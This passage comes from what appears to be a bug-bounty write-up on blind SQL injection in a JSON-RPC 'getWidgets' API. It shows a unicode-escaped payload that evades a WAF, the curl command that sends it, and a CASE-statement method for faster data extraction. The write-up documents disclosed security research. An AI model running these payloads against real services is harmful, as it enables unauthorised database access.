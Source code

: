 No WAF error, but no assets either; so if everything’s working as intended the hostname doesn’t begin with an a. Time to try the next letter! And the next one… And the next one…

I worked my way through the alphabet until:

```
tom@bash:~▶ cat payload.json
{
    "jsonrpc": "2.0",
    "method": "getWidgets",
    "params": [
        "\u0053ELECT \u0049F(\u0053UBSTRING(@@hostname, 1, 1) = \"r\", 2, 1)"
    ]
}
tom@bash:~▶ curl -s $APIURL -d @payload.json | gron | grep type_id
json.result.data.widget[5].assets[0].type_id = 2;
json.result.data.widget[5].assets[1].type_id = 2;
json.result.data.widget[5].assets[2].type_id = 2;
```

Results! The hostname starts with an r!

It was at this point I decided that rather than try and figure out the second character in the hostname, I’d write up my findings and report them. I figured I had a pretty good POC and that they’d surely reward me for being the hacking god that — in that moment — I knew myself to be.

---

## Just in CASE

In my report I said something like “data exfiltration, whilst slow, could easily be scripted”. Which is true, but it would still be a real pain to actually get any useful data out of the thing, wouldn’t it? Asking all of those yes/no questions would surely show up on somebody’s monitoring dashboard somewhere if you actually tried to use it for anything other than the shortest of strings.

How can we make things a little faster? Maybe even a couple of orders of magnitude faster?! We need to go beyond binary questions, beyond trinary questions, and even beyond that!… OK, I made that sound a little more exciting that it really is: we can use a CASE statement.

A CASE statement lets you do something like this:

```
mysql> SELECT CASE SUBSTRING(@@hostname, 1, 1)
    ->     WHEN "a" THEN 1
    ->     WHEN "b" THEN 2
    ->     WHEN "c" THEN 3
    ->     WHEN "d" THEN 4
    ->     WHEN "e" THEN 5
    ->     WHEN "f" THEN 6
    ->     WHEN "g" THEN 7
    ->     ...
    ->     WHEN "z" THEN 26
    -> END as result;
+--------+
| result |
+--------+
|      7 |
+--------+
1 row in set (0.00 sec)
```
